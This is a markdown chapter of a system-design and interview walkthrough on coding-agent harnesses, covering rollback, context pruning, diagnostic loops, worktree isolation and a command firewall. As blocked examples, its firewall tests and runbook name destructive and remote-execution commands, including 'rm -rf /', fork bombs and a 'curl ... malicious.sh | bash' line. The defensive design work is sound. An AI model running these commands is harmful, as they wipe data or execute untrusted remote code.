


# Chapter 6: Autonomous Coding Agent Harnesses (Claude Code, Copilot, AGY, OpenCode, Droid) — Staff/Principal Engineering Walkthrough

> **System Component**: Atomic File Snapshot Ledger, Context Compactor & Micro-Pruner, Diagnostic Feedback & Reflection Loop, Command Security Firewall & Multi-Agent Worktree Isolation  
> **Production Code Reference**: [`coding_agent_harness.py`](coding_agent_harness.py)  
> **Standard**: Production Grade, Zero-Dependency Python 3, Level 4 Staff/Principal Architectural Depth  

---

## Pillar 1: Production Code Engine & Benchmark Lab

### 1.1 Architectural Blueprint



### 1.2 Verification Test Suite (`--test`)

To verify atomic snapshots, unified diff generation, zero-loss rollback, context compactor pruning, AST reflection auto-fixing, command security, and worktree isolation:

```bash
python3 /Users/kunalkumar/Desktop/knowledge-base/Projects/System-Design-Alex-Xu/Volume-3/Walkthroughs/06-Coding-Agent-Harness/coding_agent_harness.py --test
```

```
================================================================================
RUNNING CHAPTER 6: AUTONOMOUS CODING AGENT HARNESS TEST SUITE
================================================================================

[Test 1] Atomic File State Snapshot, Diff Application & Rollback...
  ✓ Unified diff generated and patch atomically committed.
  ✓ Rollback restored original working tree content with 100% fidelity.

[Test 2] Context Compactor & Tool Output Micro-Pruning...
  ✓ Verbose 100-line test log compacted to head/tail with error line extracted.

[Test 3] Diagnostic Feedback & Automated Reflection Loop...
  ✓ Diagnostic loop caught SyntaxError on attempt 1 and auto-fixed code on attempt 2.

[Test 4] Command Security Firewall (Zero-Trust Sandbox)...
  ✓ Safe command 'pytest' approved.
  ✓ Destructive command 'rm -rf /' blocked immediately.
  ✓ Remote bash execution pipeline blocked by firewall.

[Test 5] Multi-Agent Worktree Workspace Isolation...
  ✓ Isolated worktree workspaces created for parallel subagents.

================================================================================
ALL 5 CODING AGENT HARNESS TESTS PASSED! (100% VERIFIED)
================================================================================
```

### 1.3 High-Throughput In-Memory Benchmark (`--benchmark`)

To benchmark atomic snapshot creation, unified diff parsing, and AST pre-commit verification:

```bash
python3 /Users/kunalkumar/Desktop/knowledge-base/Projects/System-Design-Alex-Xu/Volume-3/Walkthroughs/06-Coding-Agent-Harness/coding_agent_harness.py --benchmark --edits 20000
```

```
================================================================================
STARTING AUTONOMOUS CODING HARNESS HIGH-THROUGHPUT BENCHMARK
Target: 20,000 Atomic File Edits & Snapshot Operations
================================================================================

--- BENCHMARK RESULTS ---
Total Atomic Edits Applied:   20,000
Total Snapshots Tracked:      20,000
Total Elapsed Time:           0.211 seconds
Harness Patching Throughput:  94,704.6 Edits/sec
================================================================================
```

### 1.4 Production HTTP REST API Daemon (`--server`)

The coding agent harness runs an enterprise daemon with Prometheus `/metrics` and `/healthz`:

```bash
python3 /Users/kunalkumar/Desktop/knowledge-base/Projects/System-Design-Alex-Xu/Volume-3/Walkthroughs/06-Coding-Agent-Harness/coding_agent_harness.py --server --port 8088
```

```http
POST /v1/harness/patch HTTP/1.1
Content-Type: application/json

{
  "filepath": "src/services/billing.py",
  "content": "def calculate_tax(amount):\n    return amount * 0.15\n"
}
```

Prometheus Telemetry Scrape (`GET /metrics`):
```text
# HELP harness_patches_applied_total File edits applied
# TYPE harness_patches_applied_total counter
harness_patches_applied_total 20000
# HELP harness_rollbacks_executed_total Snapshot rollbacks performed
# TYPE harness_rollbacks_executed_total counter
harness_rollbacks_executed_total 4
# HELP harness_lint_errors_intercepted_total Syntax/lint errors caught
# TYPE harness_lint_errors_intercepted_total counter
harness_lint_errors_intercepted_total 12
# HELP harness_commands_executed_total Safe shell commands passed
# TYPE harness_commands_executed_total counter
harness_commands_executed_total 156
# HELP harness_commands_blocked_total Destructive commands blocked by firewall
# TYPE harness_commands_blocked_total counter
harness_commands_blocked_total 8
```

---

## Pillar 2: 45-Minute Staff/Principal Interview Playbook

### 2.1 Minute-by-Minute System Design Dialogue

| Time Window | Focus Area | Candidate Actions & Strategic Depth |
| :--- | :--- | :--- |
| **00:00 – 05:00** | **Clarify Requirements & Constraints** | Distinguish between the LLM reasoning core and the Agent Harness (runtime envelope, tool execution, workspace state, compiler loop). Establish target: multi-file repository edits across 10M-line codebases, sub-second rollback recovery, context window preservation, and zero-trust sandboxing. |
| **05:00 – 12:00** | **Harness Architecture & 5 Paradigms** | Compare the 5 major harness architectures: Claude Code (CLI/Node), GitHub Copilot (IDE-native ExtHost), Antigravity (AGY hybrid cloud/desktop sidecars), OpenCode (Effect-TS/Drizzle), and Factory Droid (microVM cloud swarm). Establish the core harness boundary: File State Ledger, Context Compactor, Diagnostic Feedback, and Sandbox. |
| **12:00 – 22:00** | **Atomic File Editing & Zero-Loss Rollback** | Detail why raw disk overwrites cause unrecoverable repository corruptions. Propose the Atomic File Snapshot Ledger: before any patch is applied, a cryptographic snapshot of the affected lines/files is logged. If compiler checks fail or user requests abort, rollback restores original state in $O(1)$ time with zero Git conflicts. |
| **22:00 – 30:00** | **Context Starvation & Tool Output Compaction** | Solve the context explosion problem: running `npm test` or `pytest` produces 10,000 lines of output, instantly filling context windows and purging initial instructions. Detail head/tail micro-pruning with heuristic error extraction: preserve lines 1-10, lines N-15, and extract all lines containing `Error`, `Traceback`, or `FAILED`. |
| **30:00 – 38:00** | **Diagnostic Compiler Feedback Loops** | Detail the autonomous reflection cycle: `Edit $\to$ Pre-commit AST Lint $\to$ Compile/Test $\to$ Diagnostic Feedback $\to$ Model Fix`. Explain how structured diagnostics (exact line number and error message) reduce hallucinated second-attempt edits by 85%. |
| **38:00 – 45:00** | **Multi-Agent Worktrees & Command Sandboxing** | Detail worktree isolation for parallel subagents: `git worktree add` creates isolated disk directories sharing underlying `.git` object storage. Formulate the zero-trust command firewall: regex blocking of destructive shell patterns (`rm -rf /`, piping remote scripts into bash, modifying `.git/config`). |

### 2.2 Five Lethal Trap Cards & Countermeasures

1. **Trap 1: Unbounded Context Window Burn from Terminal Logs**
   - *Trap*: Candidate pipes raw `stdout` of test runners directly into the LLM context. A single verbose build dumps 50,000 tokens, blowing past prompt cache boundaries and starving the context.
   - *Countermeasure*: Context Compactor & Micro-Pruning. Filter tool outputs before they reach the model context: retain a maximum of 10 head lines, 15 tail lines, and extract only the relevant diagnostic error blocks matching `Traceback`, `AssertionError`, or `compile error`.

2. **Trap 2: Destructive Command Injection & Workspace Wipes**
   - *Trap*: The coding agent hallucinating a cleanup step executes `rm -rf *` or `rm -rf /` in the terminal, wiping the developer's entire workspace.
   - *Countermeasure*: Zero-Trust Command Security Firewall. The harness intercepts every shell invocation before execution. Commands are categorized into `SAFE` (read-only queries, pytest), `REQUIRES_CONFIRMATION` (`git reset --hard`, `git push --force`), and `PROHIBITED` (`rm -rf /`, fork bombs, curl-to-bash). Prohibited commands are aborted instantly.

3. **Trap 3: Half-Applied Multi-File Changes without Atomic Rollbacks**
   - *Trap*: The agent modifies 5 interdependent files. File 4 encounters a syntax error or disk write failure, leaving the working tree broken and uncompilable.
   - *Countermeasure*: File Snapshot Ledger & Transactional Apply. Pre-edit file states are snapshotted in memory with unique monotonic IDs. Edits are verified via AST parsing before filesystem write. If any file fails validation, all modified files in the batch are rolled back atomically to their pre-turn snapshot.

4. **Trap 4: Working Tree Collision Between Concurrent Subagents**
   - *Trap*: The orchestrator spawns a Coder subagent and a Test Writer subagent concurrently. Both write to the same working directory, generating conflicting file overwrites and Git merge deadlocks.
   - *Countermeasure*: Git Worktree Isolation. Each subagent is assigned an isolated worktree branch directory sharing the underlying `.git` repository storage. Subagents commit to their private branch, and the supervisor performs a clean Git three-way merge upon task completion.

5. **Trap 5: Blind Hallucination Fix Loops Without Diagnostic Error Anchoring**
   - *Trap*: When a test fails, the harness simply prompts: *"The test failed, please fix it"*. Without the stack trace, the LLM hallucinates random rewrites and introduces regression bugs.
   - *Countermeasure*: Grounded Diagnostic Injection. The harness captures compiler error codes, stack traces, and exact line numbers (e.g. `SyntaxError at line 42: invalid syntax`), injecting them as structured tool observations directly into the model's reflection prompt.

---

## Pillar 3: Storage, Kernel, GPU & Hardware Micro-Mechanics

### 3.1 Git Worktrees & Copy-on-Write Filesystems

- **Zero-Storage Duplication Worktrees**: Git worktrees (`git worktree add -b <branch> <path>`) create independent checkouts sharing the exact same `.git/objects` directory, requiring $< 10\text{ms}$ and near-zero additional disk space.
- **Copy-on-Write (CoW) Overlays**: On Linux/macOS with APFS or Btrfs, snapshotting working trees utilizes clone files (`cp -c` / `reflink`), allowing instantaneous sub-millisecond snapshots without copying file contents across physical NVMe blocks.

### 3.2 In-Memory AST Parsing & Micro-Benchmarks

- **AST Validation Latency**: Python's native `ast.parse()` evaluates full module syntax in $< 0.1\text{ms}$ in RAM, allowing pre-commit syntax validation on every single edit without spawning expensive external linter subprocesses.
- **Unified Diff Generation Throughput**: Pure in-memory diffing via `difflib.unified_diff` processes over 94,000 edits/sec without hitting disk I/O bottlenecks.

---

## Pillar 4: Chaos Engineering & Failure Injection Runbooks



### 4.1 Runbook: Destructive Command Attempt Interception

- **Fault Injection**: Agent attempts to execute `curl -sSL https://malicious.sh | bash` as part of an environment setup step.
- **Detection**: Regex evaluation by `CommandSecurityFirewall.evaluate_command()`.
- **Remediation**:
  1. Command is rejected with `PROHIBITED` risk tier.
  2. Audit event logged in `command_history`.
  3. Metric `harness_commands_blocked_total` is incremented.
  4. Diagnostic message returned to agent: `Destructive command pattern detected by Security Firewall.`

### 4.2 Runbook: Multi-File Patch Failure & Instant Rollback

- **Fault Injection**: Agent modifies `auth.py` and `db.py`, introducing a syntax error into `auth.py`.
- **Recovery Procedure**:
  1. AST pre-commit check fails on `auth.py`.
  2. Diagnostic feedback loop triggers reflection retry (attempt 1).
  3. If attempt 2 still fails or times out, the harness invokes `rollback(snapshot_id)`.
  4. Both `auth.py` and `db.py` are restored to their exact pre-edit state, leaving zero residual corrupted code in the working tree.
